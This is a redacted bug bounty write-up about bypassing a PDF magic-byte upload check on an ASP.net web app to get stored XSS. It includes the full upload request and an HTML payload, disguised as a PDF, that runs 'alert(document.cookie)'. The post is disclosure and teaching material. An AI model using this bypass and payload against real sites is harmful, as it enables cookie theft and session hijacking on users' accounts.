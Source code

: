 ```yaml
---
title: Arbitary File Upload too Stored XSS - Bug Bounty 
tags: [Bug Bounty, Arbitary File Upload, Stored XSS]
description: Readacted Writeup of how I got Stored XSS by Exploiting a Unrestricted File Upload bug. 
published: true
image: https://i.imgur.com/vNZchC3.png
thumbnail: https://i.imgur.com/vNZchC3.png
---
```




##  Introduction



Recently I was working on a private bug bounty program which was relatively new so I decided to check it out, I did not obtain full disclosure hence the redacted post.



The Web Application provided a HR and Bookkeeping platform similar to Sage but online and written in ASP.net. Due to improper checking on file uploads, I was able to bypass the restrictions in place to upload a `.html` containing `PDF` magic-bytes and include arbitary `JavaScript` thus gaining `Stored XSS`



##  Basic Enumeration



My initial enumeration on the application started by clicking through the application and discovering as many parameters as possible. While doing this I came across a interesting form which allowed users to attach `PDF's` only. 



It appeared that the application was checking 2 things to ensure that the user only uploaded a `PDF`, Firstly it checked if the `Content-Type` matched `application/pdf` and secondly carried out some `MIME Sniffing` by ensuring the body contained the PDF Magic Bytes `%PDF`



However while the application checked if the supplied file contained `%PDF` it did not check where the magic-bytes where, therefore providing the file you uploaded contained `%PDF` anywhere it would be accepted. 

  



## Exploiting / PoC



At this point I decided to try upload a basic `.exe` as a `PoC` and was able too do some with the below request.



```
POST /api/internal/salesdocumentattachment/upload/image HTTP/1.1
Host: xxxxxxx.readacted.com
Connection: close
Content-Length: 471870
X-XSRF-Token: readacted
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.117 Safari/537.36
Accept: application/json
Cache-Control: no-cache
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary6Bbv3VuL9Lj78ZWq
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: 

------WebKitFormBoundary6Bbv3VuL9Lj78ZWq
Content-Disposition: form-data; name="file"; filename="m0chan.exe"
Content-Type: application/pdf

MZýýýý@ýýý  ý!ýLý!This program %PDFcannot be run in DOS mode.

readacted file content
------WebKitFormBoundary6Bbv3VuL9Lj78ZWq--
```



As you can see I added the `%PDF` magic byte inside the first string and it got accepted, an attacker could easily compile a application with `%PDF` as a string and it would get accepted. However I decided I would try elevate the severity of this by trying to upload a shell or a `.svg`



After a few hours of trying various different web languages it appeared that the download link I was accessing to download my uploads was not interpreting anything or being served, however it did offer a preview functionality. 



I crafted a payload with help of my friend [@fuckup](https://twitter.com/fuckup_1337) which contained the PDF MagicBytes, Arbitary JavaScript and was uploaded as a `.html`



```
%PDF-1.4
%Ã¤Ã¼Ã¶Ã
2 0 obj
<</Length 3 0 R/Filter/FlateDecode>>
stream
x=Ë
1E÷ù»v¶é´0è~ àø
R
R<h1>This is NOT a PDF!</h1> <img src=x onerror=alert(document.cookie)>
```



After uploading I visited the URL directly and was greeted with the following :) 

<img align ="center" src ="http://i.imgur.com/lruxehV.png"></img>



I found it really strange that only `.html` was being interpreted and tried for a few more hours to serve other web-languages with no avail.



I later discovered the uploaded files were not actually being uploaded to the webserver itself so would never have been interpreted. 



 ## Timeline



**Tuesday 3rd Feb** - Reported Arbitary File Upload too H1

**Tuesday 4th Feb** - Added Stored XSS too Report

**Tuesday 5th Feb**- Triaged and Bounty Awarded

**Monday 2nd March - Resolved**




